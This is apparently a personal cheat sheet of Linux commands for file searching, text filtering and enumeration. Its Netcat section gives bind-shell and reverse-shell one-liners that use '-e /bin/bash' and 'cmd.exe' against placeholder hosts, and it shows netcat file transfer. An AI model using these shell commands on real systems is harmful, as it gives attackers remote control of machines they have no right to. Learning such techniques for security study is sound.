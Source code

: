 # Linux basics

A list of commands and techniques that are useful for getting around the file system and enumerating. I'm writing them down because they're easy to forget or mix up.

## Finding things

There are some basic commands to find files and executables, but each one works differently.

### Locate

Search against an index which must be updated periodically:

```text
updatedb
locate nc.exe
```

### Which

Search through directories defined in the `$PATH` environment variable:

```text
which gcc
```

### Find

Search recursively through directories:

```text
find / -name cron*
```

### Ls

Never use the basic command, always list directory contents showing owner and including dot files like `bash_history`:

```text
ls -la
-rw-------    1 joe  staff   6863 26 Sep 17:12 .bash_history
-rw-r--r--    1 joe  staff    200 23 Jul 14:36 .bash_profile
drwx------  129 joe  staff   4128  1 Oct 15:41 .bash_sessions
```

## Basic Bash scripting

This isn't even really Bash scripting, it's more about how to chain commands together to do useful things.

### Filter

Being able to process text-based files and pull out useful data is a useful skill. For example, to filter out domain names from an HTML file full of other stuff, you can `grep` for something uniquely associated with URLs, then cut out extraneous information:

```text
<li><a href="http://newsroom.cisco.com/">Newsroom</a></li> # links you'd find in HTML

grep "href=" file.html | cut -d "/" -f 3
```

In the above example, we are grepping for `href=` which identifies hyperlinks in HTML. We can filter more precisely by looking for recurring characters that help us divide the data into smaller chunks. The command `cut -d "/"` chunks the data and separates it by `/`. The `-f 3` option tells us to filter out the 3rd chunk \(field\) of data.

### Sort

Find unique items in a list with duplicates using `sort -u`:

```text
grep "href=" file.html | cut -d "/" -f 3 | sort -u
```

### Simple loop

Run the `host` command on every domain in a text file:

```text
for url in $(cat list.txt); do host $url; done
```

Grep the output of `host` to find successful lookups:

```text
for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u
```

In the above example, you're looking for lines with `has address`, filtering out the URL by using spaces as the delimiter and then removing duplicates with `sort`.

### Directing output

Direct output to a file with `>`:

```text
cat /root/key.txt > /tmp/key.txt
```

Append output to a file with `>>`:

```text
cat /root/key.txt >> /tmp/key.txt
```

Direct output to another command with `|`:

```text
grep "href=" file.html | cut -d "/" -f 3
```

## Netcat

### Connect to a port

Connect to an open TCP or UDP port \(e.g. mail service\) to see if it responds:

```text
nc -nv [host] 110
(UNKNOWN) [host] 110 (pop3) open
+OK POP3 server ready
```

### Bind shell

Bob \(Windows\) wants Alice \(Linux\) to connect to his computer remotely and issue commands. Bob sets up a listener which allows anyone connect to port 443 to issue commands via `cmd.exe`:

```text
nc -nlvp 443 -e cmd.exe
```

Alice then connects to Bob's machine and gets a Windows command prompt:

```text
nc -nv [bob] 443
```

### Reverse shell

Netcat can also send a command shell to a listening host. Let's say Alice \(Linux\) wants Bob \(Windows\) to issue remote commands to her computer.

Bob sets up a listener on his machine:

```text
nc -nlvp 443
listening on [any] 443...
```

Alice then sends control of her command prompt to Bob's machine, via netcat:

```text
nc -nv [bob] 443 -e /bin/bash
```

This is what hackers mean by popping shells, but usually it's getting a web server/deasktop to send a reverse shell to your attack machine.

### Transfer files

To transfer files, set up a listener and redirect the output to a filename:

```text
nc -nlvp 443 > nc.exe # receiving machine
listening on [any] 443...

nc -nv [host] 443 < nc.exe # sending machine pushes file
(UNKNOWN) [host] 443 (?) open
```

## Further reading

* [Linux Journey](https://linuxjourney.com/)

